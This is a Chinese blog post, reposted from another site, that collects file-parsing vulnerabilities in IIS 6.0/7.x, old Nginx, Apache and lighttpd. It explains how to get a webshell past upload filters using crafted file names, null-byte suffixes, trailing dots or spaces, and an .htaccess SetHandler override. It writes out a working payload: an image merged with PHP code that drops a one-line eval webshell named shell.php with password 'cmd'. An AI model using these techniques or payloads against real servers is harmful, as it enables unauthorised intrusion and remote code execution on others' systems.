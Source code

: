 ```yaml
---
layout: post
title: 服务器解析漏洞汇总
categories: Web安全
description: 服务器解析漏洞
keywords: 漏洞,解析漏洞,IIS,Nginx,Apache
---
```


### IIS 6.0

#### 目录解析：/xx.asp/xx.jpg  xx.jpg可替换为任意文本文件(e.g. xx.txt)，文本内容为后门代码

IIS6.0 会将 xx.jpg 解析为 asp 文件。

#### 后缀解析：/xx.asp;.jpg     /xx.asp:.jpg(此处需抓包修改文件名)

IIS6.0 都会把此类后缀文件成功解析为 asp 文件。

（站长评论：IIS6.0解析漏洞的成因，可以查阅罗哥写的一篇短文：IIS文件名解析漏洞扼要分析）

{/xx.asp:.jpg 此类文件在Windows下不允许存在，:.jpg被自动除去，剩下/xx.asp}

（站长评论：发现错误，并不是不允许存在，这种路径叫做“NTFS数据流”，具体见：IIS6使用冒号上传漏洞，发现IIS6漏洞(上传利用) 底下的评论）

#### 默认解析：/xx.asa    /xx.cer   /xx.cdx

IIS6.0 默认的可执行文件除了 asp 还包含这三种

（站长评论：这种主要是由于在 IIS 默认配置中，这几个后缀默认由 asp.dll 来解析，所以执行权限和 .asp 一摸一样，你可在配置中自行删除该后缀，以防止安全隐患）

此处可联系利用目录解析漏洞 /xx.asa/xx.jpg 或 /xx.cer/xx.jpg 或 xx.asa;.jpg

### IIS 7.0/IIS 7.5/Nginx <=0.8.37

IIS 7.0/IIS 7.5/Nginx <=0.8.37

在默认Fast-CGI开启状况下,在一个文件路径(/xx.jpg)后面加上/xx.php会将 /xx.jpg/xx.php 解析为 php 文件。

常用利用方法： 将一张图和一个写入后门代码的文本文件合并 将恶意文本写入图片的二进制代码之后，避免破坏图片文件头和尾

e.g.  copy xx.jpg/b + yy.txt/a xy.jpg

'''
/b 即二进制[binary]模式

/a 即ascii模式 xx.jpg正常图片文件

yy.txt 内容 <?PHP fputs(fopen(‘shell.php’,’w’),'<?php eval($_POST[cmd])?>’);?>

意思为写入一个内容为 <?php eval($_POST[cmd])?> 名称为shell.php的文件

'''

找个地方上传 xy.jpg ,然后找到 xy.jpg 的地址，在地址后加上 /xx.php 即可执行恶意文本。

然后就在图片目录下生成一句话木马 shell.php 密码 cmd

### Nginx <=0.8.37

在Fast-CGI关闭的情况下，Nginx <=0.8.37 依然存在解析漏洞

在一个文件路径(/xx.jpg)后面加上%00.php会将 /xx.jpg%00.php 解析为 php 文件。

（站长评论：从 /test.jpg/x.php 演变过来的，具体可以参考：Ngnix 空字节可远程执行代码漏洞）

### Apache

后缀解析：test.php.x1.x2.x3

Apache将从右至左开始判断后缀，若x3非可识别后缀，再判断x2，直到找到可识别后缀为止，然后将该可识别后缀进解析

test.php.x1.x2.x3 则会被解析为php

经验之谈：php|php3|phtml 多可被Apache解析

（站长评论：关于 apache 解析漏洞可以查阅“Apache 漏洞之后缀名解析漏洞”）

### 其他一些可利用的

在windows环境下，xx.jpg[空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点，这也是可以被利用的！

在向一台windows主机上传数据时，你可以抓包修改文件名，在后面加个空格或点，试图绕过黑名单，若上传成功，最后的点或空格都会被消除，这样就可得到shell。

我记得Fck Php 2.6就存在加空格绕过的漏洞。{Linux主机中不行，Linux允许这类文件存在}

如果在Apache中.htaccess可被应用（Apache的配置文件httpd.conf中对目录的AllowOverride设置为All时，apache会应用目录下.htaccess中的配置 By sfasfas），

且可以被上传，那可以尝试在.htaccess中写入:

<FilesMatch “shell.jpg”> SetHandler application/x-httpd-php </FilesMatch>

shell.jpg换成你上传的文件，这样shell.jpg就可解析为php文件

### lighttpd

xx.jpg/xx.php

[Add by El4pse]

PS:我并不保证我写的全对哦，如果有错的或遗漏的，请各位朋友帮忙纠正一下，谢谢

##### 以上转载于：<http://www.cnseay.com/806/>
